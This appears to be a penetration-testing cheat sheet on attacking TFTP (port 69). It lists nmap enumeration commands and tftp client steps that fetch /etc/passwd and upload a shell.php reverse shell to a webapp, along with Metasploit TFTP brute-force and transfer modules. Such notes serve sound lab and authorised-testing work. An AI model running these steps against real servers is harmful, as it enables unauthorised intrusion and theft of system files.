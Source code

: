 # 69 (TFTP)

## Enumeration

### Checks

* [ ] Search for files to find sensitive info like passwords
* [ ] Uploads shells to trigger them in a webapp

### nmap

```bash
nmap -sU -p 69 --script tftp-enum.nse <IP>
nmap -n -Pn -sU -p69 -sV --script tftp-enum <IP>
nmap -sU -p 69 --script tftp-enum.nse <IP>
```

### Connection

```bash
#setup the connection
tftp 172.16.200.100 
#get a file    
tftp> get /etc/passwd
#upload reverse shell 
tftp> put shell.php

# Need unauthenticate access
tftp <IP>
tftp> ls
?Invalid command
tftp> verbose
Verbose mode on.
tftp> put shell.php
Sent 3605 bytes in 0.0 seconds [inf bits/sec]
```

### Metasploit

```bash
msfconsole 
use tftpbrute
set dictionary /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt

msf5> auxiliary/admin/tftp/tftp_transfer_util
```
